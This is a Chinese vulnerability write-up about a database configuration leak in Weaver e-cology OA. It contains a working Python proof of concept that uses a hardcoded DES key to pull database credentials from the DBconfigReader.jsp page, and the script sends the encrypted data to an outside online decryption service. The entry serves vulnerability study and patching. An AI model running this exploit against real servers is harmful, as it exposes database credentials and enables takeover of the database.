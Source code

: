 ```yaml
---
title: 泛微OA e-cology 数据库配置信息泄漏漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 泛微OA
---
```


# 泛微OA e-cology 数据库配置信息泄漏漏洞

## 漏洞描述

2019年10月24日，360CERT监测到友商发布了泛微e-cology OA数据库配置信息泄漏漏洞预警，漏洞等级中。

攻击者可通过存在漏洞的页面直接获取到数据库配置信息。如果攻击者可直接访问数据库，则可直接获取用户数据，甚至可以直接控制数据库服务器。

360CERT判断漏洞等级为中，危害面/影响面低。建议使用泛微e-cology OA的用户及时安装最新补丁，以免遭受黑客攻击。

## 影响版本

> [!NOTE]
>
> 目前已知为8.100.0531,不排除其他版本，包括不限于EC7.0、EC8.0、EC9.0版

## 漏洞复现

根据源码可以得到DES密钥为 1z2x3c4v5b6n（也有1z2x3c4v的,可以按此规律来爆破）

![](/img/20210924015524717555.png)

可以看到会将当前连接数据库的用户名密码，url，logintype等信息进行des加密，并最终进行返回，可以直接通过des解密获取泄露信息。

## 漏洞利用POC

[Github链接](https://github.com/ianxtianxt/ecologyExp.jar)

python代码

```python
import base64
import requests
import ast

def req(url):
	headers =  {
        'Content-Type':'application/x-www-form-urlencoded',
        'User-Agent':'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36',
        'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
    }

	r1 = requests.get(url,headers=headers).content
	s = r1.replace('\r\n','')
	res1 = base64.b64encode(s)
	
	postdata = {
		'data':res1,
		'type':'des',
		'arg':'m=ecb_pad=zero_p=1z2x3c4v_o=0_s=gb2312_t=1'
	}
	u = 'http://tool.chacuo.net/cryptdes'
	r2 = requests.post(u,data=postdata,headers=headers).content	
	res2 = ast.literal_eval(r2)
	
	return res2['data']

url = 'http://xxx.xxx.xxx.xxx:8888//mobile/DBconfigReader.jsp'
print req(url)
```

## 参考文章

[[更新]泛微e-cology OA数据库配置信息泄漏漏洞预警](https://mp.weixin.qq.com/s/zTEUan_BtDDzuHzmd9pxYg)